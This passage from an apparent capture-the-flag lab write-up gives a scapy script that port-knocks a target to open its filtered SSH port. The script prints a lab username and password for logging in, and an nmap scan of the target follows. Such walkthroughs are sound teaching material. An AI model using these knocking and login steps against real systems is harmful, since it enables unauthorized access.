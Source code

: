 <p>We noticed in the initial nmap that port 22 came back filtered. I’ll hypothesize that those three numbers are a clue for port knocking, and they could open ssh. I’ll also notice that the note was to prometheus (username?), and that the last bit looks like a password.</p>

<p>Wrote a short script to knock, <code class="language-plaintext highlighter-rouge">open_portal_to_Hades.py</code>:</p>

<div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="c1">#!/usr/bin/env python
</span>
<span class="kn">from</span> <span class="n">scapy.all</span> <span class="kn">import</span> <span class="o">*</span>
<span class="kn">import</span> <span class="n">pyperclip</span>

<span class="k">def</span> <span class="nf">SendSyn</span><span class="p">(</span><span class="n">ip</span><span class="p">,</span> <span class="n">port</span><span class="p">):</span>
    <span class="n">ip</span><span class="o">=</span><span class="nc">IP</span><span class="p">(</span><span class="n">src</span><span class="o">=</span><span class="sh">"</span><span class="s">10.10.15.99</span><span class="sh">"</span><span class="p">,</span> <span class="n">dst</span><span class="o">=</span><span class="n">ip</span><span class="p">)</span>
    <span class="n">SYN</span><span class="o">=</span><span class="nc">TCP</span><span class="p">(</span><span class="n">sport</span><span class="o">=</span><span class="mi">7777</span><span class="p">,</span> <span class="n">dport</span><span class="o">=</span><span class="n">port</span><span class="p">,</span> <span class="n">flags</span><span class="o">=</span><span class="sh">"</span><span class="s">S</span><span class="sh">"</span><span class="p">,</span> <span class="n">seq</span><span class="o">=</span><span class="mi">12345</span><span class="p">)</span>
    <span class="nf">send</span><span class="p">(</span><span class="n">ip</span><span class="o">/</span><span class="n">SYN</span><span class="p">)</span>

<span class="n">ports</span> <span class="o">=</span> <span class="p">[</span><span class="mi">3456</span><span class="p">,</span> <span class="mi">8234</span><span class="p">,</span> <span class="mi">62431</span><span class="p">]</span>

<span class="k">for</span> <span class="n">port</span> <span class="ow">in</span> <span class="n">ports</span><span class="p">:</span>
    <span class="nc">SendSyn</span><span class="p">(</span><span class="sh">"</span><span class="s">10.10.10.83</span><span class="sh">"</span><span class="p">,</span> <span class="n">port</span><span class="p">)</span>

<span class="nf">print</span><span class="p">(</span><span class="sh">"</span><span class="s">[+] Portal should be open.</span><span class="se">\n</span><span class="s">Run:</span><span class="se">\n</span><span class="s">ssh prometheus@10.10.10.83</span><span class="se">\n</span><span class="s">password: St34l_th3_F1re!</span><span class="sh">"</span><span class="p">)</span>
<span class="nf">print</span><span class="p">(</span><span class="sh">"</span><span class="s">[*] Putting password on system clipboard. Ctrl + Shift + v to paste</span><span class="sh">"</span><span class="p">)</span>
<span class="n">pyperclip</span><span class="p">.</span><span class="nf">copy</span><span class="p">(</span><span class="sh">'</span><span class="s">St34l_th3_F1re!</span><span class="se">\n</span><span class="sh">'</span><span class="p">)</span>
</code></pre></div></div>

<p>To demonstrate the script, I’ll start with an nmap showing ssh on 22 filtered:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">root@kali# </span>nmap <span class="nt">-p-</span> <span class="nt">-sT</span> <span class="nt">--min-rate</span> 5000 10.10.10.83
<span class="go">Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-21 21:15 EDT
Nmap scan report for 10.10.10.83
Host is up (0.095s latency).
Not shown: 65531 closed ports
PORT     STATE    SERVICE
22/tcp   filtered ssh
53/tcp   open     domain
80/tcp   open     http
2222/tcp open     EtherNetIP-1
</span></code></pre></div></div>
